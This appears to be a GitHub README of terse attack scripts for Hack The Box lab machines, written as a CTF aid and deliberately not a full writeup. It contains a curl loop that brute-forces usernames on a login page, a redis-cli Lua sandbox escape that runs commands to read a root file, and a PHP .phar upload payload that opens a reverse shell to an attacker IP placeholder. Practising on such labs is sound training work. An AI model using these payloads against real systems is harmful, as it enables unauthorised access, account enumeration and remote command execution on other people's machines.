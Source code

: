 # Quick and dirty scripts for HTB

Hack The Box is a hacking platform that provides various kinds of challenges and machines to hack. 😈

This repo discloses some manual scripts I had to write to get things done.

## Disclaimer

All my dirty scripts, and I can't insist more on the term "dirty", are provided for convenience. There's very little context and it's on purpose.

Indeed, **the idea is not give you a full writeup**.

Besides, you will likely find some ways to improve the code, as the idea is to get the desired information quick, but during a CTF, it's useless to look for the perfect script.

## All boxes

### Noter

The box will put your logic to the test.

At the beginning, to access the targeted backend, I needed this tiny Bash script:

```bash
for w in $(cat $1)
do
    r=$(curl -X POST -d "username=$w" -d "password=123" "http://$2/login")
    if [[ $r == *"Invalid login"* ]]; then
        echo "$w" > username.txt
        exit 0
    fi
    sleep .25 # in case of rate limiting
done
```

`$1` is for the path to your wordlist (for usernames), and `$2` is for the IP machine to attack.

It does not give you the password because we want to find the username here. I've read comments on the HTB forum that say you can find it without any brute force. Well, even if the username is in a notorious wordlist (not Rockyou), it's still pretty uncommon in such context.

### Shared

The box involves classic web exploitation, but the root flag requires hacking with Redis:

```sh
# hack.sh

redis-cli --pass "$1" eval 'local t = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = t(); local b = io.popen("cat /root/root.txt"); local s = b:read("*a"); b:close(); return s' 0;
```

Use it like that on the victim's machine: `sh hack.sh {REDIS_ROOT_PASSWORD_YOU_HACKED}`

[Source for inspiration](https://cn-sec.com/archives/1159396.html)

### Updown

This machine has classic HTTP/SSH config, nothing more, but a basic enumeration reveals "hidden" `.git/` dir in `/dev/` subfolder.

You can download the folder or use dedicated tools, such as GitHacker. One of the commits indicates a _fantastic_ technique used by the dev team to protect their vhost.
They use a classic subdomain you can found with any wordlist containing common subdomains (e.g., wfuzz, Gobuster). You might even guess it!

There's a form you need to abuse to upload a backdoor and pass arbitrary commands. It's possible because the form has an input for uploads and you have access to the code that processes the form in the git history. Many formats are disallowed but not `.phar`, which is a classic hack.

There are more work after that, but the payload to upload with the form looks like the following:

```php
<?php
// rs.phar
$descriptor_spec = array(
   0 => array( "pipe", "r" ),
   1 => array( "pipe", "w" ),
   2 => array( "file", "/tmp/errors.txt", "a" ),// stderr
);

$process = proc_open("bash", $descriptor_spec, $pipes, "/tmp");
// replace with your IP and listening port
fwrite($pipes[0], 'bash -i >& /dev/tcp/{YOUR_ATTACKER_IP}/{YOUR_PORT} 0>&1');
fclose($pipes[0]);
echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
$return_value = proc_close($process);
echo "command returned $return_value\n";
?>
```

After that you can navigate to the uploaded .phar and get your shell.
